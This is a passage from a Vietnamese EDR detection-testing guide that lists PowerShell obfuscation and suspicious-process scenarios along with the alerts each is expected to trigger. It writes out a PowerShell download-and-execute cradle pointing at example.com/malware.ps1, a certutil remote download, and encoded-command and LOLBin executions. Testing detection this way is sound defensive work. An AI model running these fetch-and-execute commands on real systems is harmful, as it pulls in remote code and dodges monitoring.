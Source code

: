 **Kết quả mong đợi**:
- EDR sẽ detect brute force pattern
- Alert level: HIGH
- Rule: "Bruteforce enumeration with non existing users (login)"

### Scenario 2: PowerShell Obfuscation (MEDIUM ALERT)

**Mục tiêu**: Chạy PowerShell commands bị obfuscate

**Cách thực hiện**:
```powershell
# 1. PowerShell Encoded Command
powershell.exe -EncodedCommand UwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBTAGUAYwBvAG4AZABzACAAMQAwAA==

# 2. PowerShell Download Cradle
powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://example.com/malware.ps1')"

# 3. PowerShell Base64 Execution
powershell.exe -Command "IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('UwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBTAGUAYwBvAG4AZABzACAAMQAwAA==')))"
```

**Kết quả mong đợi**:
- EDR sẽ detect PowerShell obfuscation
- Alert level: MEDIUM
- Rule: "Non Interactive PowerShell Process Spawned"

### Scenario 3: Suspicious Process Creation (MEDIUM ALERT)

**Mục tiêu**: Tạo các process đáng ngờ

**Cách thực hiện**:
```powershell
# 1. mshta.exe Execution
mshta.exe javascript:alert('Test')

# 2. wmic.exe Process Creation
wmic.exe process call create "notepad.exe"

# 3. certutil.exe Download
certutil.exe -urlcache -split -f http://example.com/test.txt test.txt

# 4. rundll32.exe Execution
rundll32.exe shell32.dll,ShellExec_RunDLL notepad.exe
```

**Kết quả mong đợi**:
- EDR sẽ detect suspicious process creation
- Alert level: MEDIUM
- Rule: "Suspicious Process Creation"

### Scenario 4: Service Creation (HIGH ALERT)
